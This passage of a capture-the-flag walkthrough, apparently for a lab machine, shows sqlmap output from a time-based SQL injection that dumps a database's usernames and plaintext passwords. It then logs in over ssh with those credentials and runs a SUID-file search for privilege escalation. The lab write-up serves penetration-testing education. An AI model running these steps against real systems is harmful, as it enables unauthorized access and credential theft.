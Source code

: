 ```
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[15:33:54] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[15:34:05] [INFO] adjusting time delay to 1 second due to good response times
PlayerOftheMatch2022
[15:35:40] [INFO] retrieved: 
[15:35:42] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+

[15:36:13] [INFO] table 'soccer_db.accounts' dumped to CSV file '/root/.local/share/sqlmap/output/localhost/dump/soccer_db/accounts.csv'
[15:36:13] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'

[*] ending @ 15:36:13 /2023-04-16/
```

So, now we got the credentials of the player user, with username "player" and password "PlayerOftheMatch2022". Let's use ssh to login:

```
ssh player@10.10.11.194
```

After getting in, we can get the user flag. We can execute "sudo -l" to check the permissions of the user "player", but we see "Sorry, user player may not run sudo on localhost.".

Let's run the following command to see the files we have permission as "player" user.

```
find / -perm -u=s -type f 2> /dev/null
```

The command searches for files with the setuid (SUID) permission enabled in the entire file system starting from the root directory.

Here's a breakdown of the command:

- find: The command used to search for files and directories in Linux.

- /: The starting directory for the search, which is the root directory ("/") in this case.

- perm: The option to specify the permissions to match.

- u=s: The permission pattern to match, where "u" stands for "user" and "s" indicates the setuid permission. This pattern specifies that the files should have the setuid permission enabled.

- type f: The option to specify the type of files to search for, where "f" indicates regular files. This ensures that only regular files with the setuid permission are returned.
